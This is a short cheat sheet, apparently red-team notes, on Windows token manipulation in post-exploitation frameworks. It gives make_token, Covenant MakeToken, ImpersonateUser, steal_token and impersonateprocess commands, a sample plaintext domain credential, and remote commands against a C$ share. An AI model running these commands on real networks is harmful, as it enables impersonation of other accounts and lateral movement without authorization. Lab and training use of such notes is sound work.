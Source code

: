 ### Make Token
MakeToken Used Window API LOGON32_LOGON_NEW_CREDENTIALS.
This API creates a Logon Session from the specified credentials, copies existing Token, associates the new Logon Session with the new Access Token
```
make_token resilience\n.John F78rrari
MakeToken n.John resilience.local F78rrari #Covenant
PowerShell Invoke-Command -ComputerName n.John -ScriptBlock {ipconfig}
```
### Impersonate User
```
ImpersonateUser resilience\n.John
ls \\n.John\c$

```
```
impersonateprocess 7775
steal_token 7777
```
